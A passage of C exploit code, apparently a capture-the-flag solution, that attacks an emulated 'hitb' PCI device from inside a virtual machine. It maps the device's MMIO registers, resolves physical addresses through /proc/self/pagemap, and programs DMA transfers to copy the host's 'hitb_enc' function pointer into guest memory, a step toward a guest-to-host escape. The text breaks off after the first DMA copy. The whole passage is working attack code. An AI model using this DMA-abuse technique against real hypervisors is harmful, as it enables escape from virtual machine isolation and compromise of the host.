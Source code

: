     return *(int*)&mmio[0];
}

void set_dma_src( int val )
{
    *(int*)&mmio[0x80] = val;
}

void set_dma_dst( int val )
{
    *(int*)&mmio[0x88] = val;
}

void set_dma_cnt( int val )
{
    *(int*)&mmio[0x90] = val;
}

void set_dma_cmd( int val )
{
    *(int*)&mmio[0x98] = val;
}

int get_dma_cmd( void )
{
    return *(int*)&mmio[0x98];
}

size_t virt_to_phys( void* addr )
{
    FILE* fd = fopen( "/proc/self/pagemap", "rb" );

    size_t offset = (size_t)addr / getpagesize() * PAGEMAP_LENGTH;
    fseek( fd, offset, SEEK_SET );

    size_t page_frame_number = 0;
    fread( &page_frame_number, 1, PAGEMAP_LENGTH - 1, fd );

    page_frame_number &= 0x7FFFFFFFFFFFFF;

    fclose( fd );

    return ( page_frame_number << 12 ) | ( (size_t)addr & 0xfff );
}

int main( void )
{
    mmio = devmap( mmio_addr );
    if ( !mmio ) {
        return 0;
    }

    // Allocate a buffer to use for physical memory access as tmp space
    size_t* va = mmap( NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, 0, 0 );

    // Force access to it so the CPU allocs physical memory for it
    memset( va, 0xcc, 0x1000 );
    printf( "va: %p\n", (void*)va );

    // Get the physical address from /proc/self/pagemap
    size_t phys_dst = virt_to_phys( va );
    printf( "elf_bss_phys: %p\n", (void*)phys_dst );

    // Copy the hitb_enc function pointer to our allocated memory
    // using cpu_physical_memory_rw(dma.src, &hitb_enc, is_read)
    // this way we are using the above function as copy from VA to PA
    set_dma_cnt( 8 );
    set_dma_src( 0x40000 + 0x1000 ); // hitb_enc pointer offset
    set_dma_dst( phys_dst );
    set_dma_cmd( COPY_TO_PA );
